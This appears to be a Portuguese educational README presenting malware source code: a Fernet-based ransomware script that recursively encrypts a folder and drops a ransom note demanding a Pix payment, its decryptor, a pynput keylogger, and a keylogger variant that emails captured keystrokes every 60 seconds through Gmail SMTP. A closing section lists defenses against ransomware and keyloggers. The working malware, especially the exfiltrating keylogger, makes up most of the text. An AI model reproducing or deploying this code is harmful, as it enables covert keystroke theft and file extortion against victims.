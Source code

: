 RANSOMWARE E DESCRIPTOGRAFIA

Este conjunto de scripts demonstra como um Ransomware pode criptografar arquivos de forma simetrica usando uma chave unica e como a posse dessa chave e critica para a recuperacao dos dados.

O script ramsonware.py simula a rotina de ataque. Ele gera uma chave de criptografia, salva-a no disco em um arquivo chamado chave.key, e criptografa recursivamente todos os arquivos dentro do diretorio test\_files.

Codigo de ramsonware.py:

from cryptography.fernet import Fernet
import os

# Gerar e salvar a chave

def gerar\_chave():
chave = Fernet.generate\_key()
with open("chave.key", "wb") as chave\_file:
chave\_file.write(chave)

# Carregar a chave salva

def carregar\_chave():
return open("chave.key", "rb").read()

# Criptografar um unico arquivo

def criptografar\_arquivo(arquivo, chave):
f = Fernet(chave)
with open(arquivo, "rb") as file:
dados = file.read()
dados\_criptografados = f.encrypt(dados)
with open(arquivo, "wb") as file:
file.write(dados\_criptografados)

# Encontrar arquivos para criptografar

def encontrar\_arquivos(diretorio):
lista = []
\# Itera de forma recursiva (os.walk)
for raiz, \_, arquivos in os.walk(diretorio):
for nome in arquivos:
caminho = os.path.join(raiz, nome)
\# Exclui o proprio ransomware e o arquivo de chave
if nome \!= "ramsonware.py" and not nome.endswith(".key"):
lista.append(caminho)
return lista

# Mensagem do resgate

def criar\_mensagem\_resgate():
with open("MENSAGEM\_DE\_RESGATE.txt", "w") as file:
file.write("Seus arquivos foram criptografados\! Envie o pix para mim\!")

# Executar o ransomware

def main():
gerar\_chave()
chave = carregar\_chave()
arquivos = encontrar\_arquivos("test\_files")
for arquivo in arquivos:
criptografar\_arquivo(arquivo, chave)
criar\_mensagem\_resgate()
print("Ransomware executado\!")

if **name** == "**main**":
main()

O script descriptografar.py simula o processo de recuperacao. Ele le a chave criptografica salva (chave.key) e reverte a criptografia em todos os arquivos afetados.

Codigo de descriptografar.py:

from cryptography.fernet import Fernet
import os

def carregar\_chave():
return open("chave.key", "rb").read()

def descriptografar\_arquivo(arquivo, chave):
f = Fernet(chave)
with open(arquivo, "rb") as file:
dados = file.read()
dados\_descriptografados = f.decrypt(dados)
with open(arquivo, "wb") as file:
file.write(dados\_descriptografados)

def encontrar\_arquivos(diretorio):
lista = []
for raiz, \_, arquivos in os.walk(diretorio):
for nome in arquivos:
caminho = os.path.join(raiz, nome)
\# Exclui o proprio script de descriptografia e a chave
if nome \!= "descriptografar.py" and not nome.endswith(".key"):
lista.append(caminho)
return lista

def main():
chave = carregar\_chave()
arquivos = encontrar\_arquivos("test\_files")
for arquivo in arquivos:
descriptografar\_arquivo(arquivo, chave)
print("Arquivos descriptografados\!")

if **name** == "**main**":
main()

KEYLOGGER

Este modulo demonstra como as entradas de teclado podem ser capturadas e registradas usando a biblioteca pynput. O keylogger pode registrar localmente ou enviar os logs por email (exfiltracao). Em ambientes Windows, e possivel rodar o script em segundo plano (invisivel ao usuario) usando a extensao .pyw.

keylogger.py (Registro Local):

from pynput import keyboard

IGNORAR = {keyboard.Key.shift,
keyboard.Key.shift\_r,
keyboard.Key.ctrl\_l,
keyboard.Key.ctrl\_r,
keyboard.Key.alt\_l,
keyboard.Key.alt\_r,
keyboard.Key.caps\_lock,
keyboard.Key.cmd
}

def on\_press(key):
try:
\# Tenta escrever o caractere da tecla
with open("log.txt", "a", encoding="utf-8") as f:
f.write(key.char)

except AttributeError:
    # Lida com teclas nao-caracteres (como Espaco, Enter, etc.)
    with open("log.txt", "a", encoding="utf-8") as f:
        if key == keyboard.Key.space:
            f.write(" ")
        elif key == keyboard.Key.enter:
            f.write("\n")
        elif key == keyboard.Key.tab:
            f.write("\t")
        elif key == keyboard.Key.backspace:
            f.write("[BACKSPACE]")
        elif key == keyboard.Key.esc:
            f.write("[ESC]")
        elif key in IGNORAR:
            pass
        else:
            f.write(f"[{key}]")

# Inicia o listener do teclado

with keyboard.Listener(on\_press=on\_press) as listener:
listener.join()

Keylogger com Exfiltracao por E-mail:

Esta versao atualiza o codigo para acumular a digitacao e envia-la periodicamente (a cada 60 segundos) para um email especifico usando a biblioteca smtplib.

from pynput import keyboard
import smtplib
from email.mime.text import MIMEText
from threading import Timer

EMAIL\_ORIGEM = "seu.email.aqui@gmail.com"
EMAIL\_DESTINO = "email.destino@exemplo.com"
SENHA\_EMAIL = "SUA SENHA/TOKEN AQUI"

log = "" \# Variavel global para armazenar a digitacao

def enviar\_email():
global log
if log:
msg = MIMEText(log)
msg['SUBJECT'] = "Dados pelo keylogger"
msg['From'] = EMAIL\_ORIGEM
msg['To'] = EMAIL\_DESTINO
try:
\# Conexao com o servidor SMTP
server = smtplib.SMTP("smtp.gmail.com", 587)
server.starttls()
server.login(EMAIL\_ORIGEM, SENHA\_EMAIL)
server.send\_message(msg)
server.quit()
except Exception as e:
print("Erro ao enviar:", e)

log = "" # Limpa o log apos o envio

# Agenda o proximo envio em 60 segundos
Timer(60, enviar_email).start()

def on\_press(key):
global log
try:
log += key.char
except AttributeError:
if key == keyboard.Key.space:
log += " "
elif key == keyboard.Key.enter:
log += "\\n"
elif key == keyboard.Key.backspace:
log += "[\<]"
else:
pass

# Inicia o listener e agenda o primeiro envio

with keyboard.Listener(on\_press=on\_press) as listener:
enviar\_email()
listener.join()

MEDIDAS DE SEGURANCA CONTRA RANSOMWARE E KEYLOGGERS

A defesa contra essas ameacas requer uma abordagem multifacetada, combinando boas praticas de usuario, medidas tecnicas e vigilancia constante.

PROTECAO CONTRA RANSOMWARE

  - Backup 3-2-1: Mantenha copias de seguranca de seus dados importantes. O ideal e seguir a regra 3-2-1: 3 copias, em 2 tipos de midia diferentes, com 1 copia off-site (desconectada ou na nuvem).
  - Atualizacao de Sistemas: Mantenha o Sistema Operacional e todos os softwares atualizados. As atualizacoes corrigem falhas de seguranca (vulnerabilidades) que os malwares exploram.
  - Antivirus e Firewall: Utilize solucoes de seguranca de endpoint (Antivirus/Antimalware) com protecao em tempo real e mantenha o firewall ativo.
  - Zero Confianca: Nunca clique em links ou abra anexos de e-mails suspeitos ou nao solicitados. A Engenharia Social (phishing) e o principal vetor de infeccao.
  - Contas de Usuario: Evite usar uma conta de Administrador para tarefas cotidianas. Use contas padrao para limitar o potencial de dano de um malware.
  - Nao Pague o Resgate: Pagar o resgate financia futuros ataques e nao garante a recuperacao dos dados.

PROTECAO CONTRA KEYLOGGERS

  - Autenticacao de Dois Fatores (2FA/MFA): Sempre ative o 2FA em suas contas mais importantes. Mesmo que um keylogger roube sua senha, o atacante precisara do segundo fator para acessar a conta.
  - Teclado Virtual: Para digitar senhas criticas (em bancos, por exemplo), use o teclado virtual do sistema operacional. Isso dribla a maioria dos keyloggers baseados na captura de eventos de teclado fisico.
  - Gerenciadores de Senhas: Use um Gerenciador de Senhas. Ao copiar e colar ou usar o preenchimento automatico a senha, voce evita a digitacao manual, impedindo a captura pelo keylogger.
  - Inspecao de Hardware: Keyloggers podem ser fisicos. Inspecione periodicamente os cabos e portas USB em busca de dispositivos suspeitos.
  - Fontes Confiaveis: Nunca instale software ou extensoes de navegador de fontes desconhecidas ou nao oficiais, pois elas sao frequentemente usadas para disfarcar keyloggers e outros spywares.
  - Monitoramento de Rede: Fique atento a atividades anormais de rede, como a tentativa de conexao com um servidor desconhecido, que pode ser detectada por firewalls ou ferramentas de monitoramento.
